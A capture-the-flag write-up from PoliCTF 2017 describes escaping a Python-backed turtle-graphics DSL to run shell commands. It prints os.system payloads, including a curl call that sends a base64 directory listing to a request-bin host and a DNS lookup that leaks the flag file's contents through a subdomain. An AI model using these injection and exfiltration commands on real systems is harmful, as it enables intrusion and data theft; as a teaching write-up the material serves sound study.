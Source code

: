 ```yaml
---
layout: post
ctf: "PoliCTF 2017"
title: "y-turtle"
---
```


# PoliCTF 2017 - Y-Turle - Grab Bag
>A new cyber-artistic collective had fun experimenting with metaprogramming and domain specific languages. Here thre is a first, broken, implementation of a Turtle graphic engine.
>http://yturtle.chall.polictf.it

This challenge was about breaking out of an environnement that provided a DSL to create an image output using turtle graphics.


<img src="https://i.imgur.com/T4VCWjv.png" />

Since the description hinted about metaprogramming, I tried executing function that would be associated to common dynamic languages.

```
(instance_eval "move(5)") ; returned nothing, it's not Ruby
```

```
(move (chr "A")); made the cursor move 41 pixels. chr is very Pythonic function
```

```
(import time)
(time.sleep 10) ; delays the response by 10 seconds
```

Can we use `os.system`? Of course!

```
(import os)
(os.system "sleep 10") ; delays the response by 10 seconds
```

Since I was not able to get the output of the commands I was running, I tried using an external server.

```
(import os)
(os.system "curl http://requestb.in/XXXXXX?x=$(ls|base64)") ; response hangs
```

Access to internet is probably blocked. I then tried using DNS which turned out not to be blocked.

```
(import os)
(os.system "host $(cat flag*|base64).example.com")
```
The server receives a DNS query for the subdomain `ZmxhZ3tzaGFfbWFfbmFfbmFfbmFfc2hhbWFfbmFfbmFfbmFfbmF9Cg==` which decodes to the flag `flag{sha_ma_na_na_na_shama_na_na_na_na}`.

Becojo - Northern Coalition
